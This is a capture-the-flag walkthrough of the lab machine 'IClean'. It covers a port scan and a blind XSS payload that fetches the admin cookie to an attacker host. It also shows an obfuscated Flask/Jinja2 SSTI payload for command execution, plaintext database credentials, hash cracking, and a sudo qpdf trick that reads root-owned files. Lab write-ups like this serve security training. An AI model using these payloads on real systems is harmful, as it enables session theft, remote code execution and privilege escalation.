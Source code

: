 # IClean

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
└─➜ nmap -p22,80 $IP -sCV                                                                                                                                                                 [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 21:55 IST
Nmap scan report for capiclean.htb (10.129.43.189)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```

* Directory scan wasn't that imp on this machine (so skipping it)

## Web -> XSS

![image](https://gist.github.com/assets/56447720/9603e459-2368-4d3f-ac06-b794210d0b77)

Give dummy data and click on submit, after submitting we can see that there's a message "team will get back to you"

![image](https://gist.github.com/assets/56447720/2f04d4ba-0984-4893-8072-ecfefe5c7eaf)

Hmm, feel like XSS, (BLIND XSS)

* Blind XSS

We can send a payload and wait for the admin to view our response and we can get their cookies.

* Payload

```js
<img src=x onerror=fetch("http://IP:PORT/"+document.cookie);>
```

* Response

```js
└─➜ python3 -m http.server 9001          
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.43.189 - - [08/Apr/2024 22:13:40] code 404, message File not found
10.129.43.189 - - [08/Apr/2024 22:13:40] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk <<SNIP>> ODk0YTRdDBh9dWK-w5cJYTlg HTTP/1.1" 404 -

```

And now we are admin

![image](https://gist.github.com/assets/56447720/1bfe2f2e-850c-47e0-8807-d7b5eb9e56ca)

## Web -> SSTI

AAAHHH, the website is build with python flask, the first bug i can thought of is SSTI.

![image](https://gist.github.com/assets/56447720/29d31fe3-e6bc-4dce-b50b-9af840681a2b)

* The invoice generator is vulnerable to SSTI

![image](https://gist.github.com/assets/56447720/bfee3a1b-841b-4420-9b44-904bbb058908)

#### SSTI -> RCE

![image](https://gist.github.com/assets/56447720/6368cc9a-68aa-4c18-9fae-1d7f1534aa9f)

* Encode the payload to base64 and send it to the server

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

![image](https://gist.github.com/assets/56447720/6b5b422a-1dfd-4866-9fa1-cc3e5675458d)

## www -> User

* we have found db creds

```py
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

* I used mysql cli to view data from the db

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_capiclean
quote_requests
services
users

www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee

```

The reason i choose to use mysql cli is because the tty session of rev shell is not good to handle sql data, it doesn't work better basically

* Crack the hash

```bash
└─# hashcat -a 0 -m 1400  iclean-consuela.hash ../wordlists/rockyou.txt
hashcat (v6.2.6) starting
<<SNIP>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:<<REDACTED>>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494da...6927aa
<<SNIP>>

Started: Mon Apr  8 17:41:28 2024
Stopped: Mon Apr  8 17:41:33 2024
```

## User -> root

* Login with ssh and get user.txt

#### Sudo -l

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Sorry, try again.
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf

```

* Documentation

{% embed url="https://qpdf.readthedocs.io/en/stable/cli.html" %}

```bash
consuela@iclean:/tmp$ sudo qpdf --empty --add-attachment /root/root.txt -- pwn.pdf
consuela@iclean:/tmp$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages
```

After we bring pwn.pdf in our local machine (through, scp, python3 server) we can get contents of root.txt

You can take id\_rsa in order to get root shell on the box.

Machine pwned!!

## \_\_\_\_heapbytes still pwning


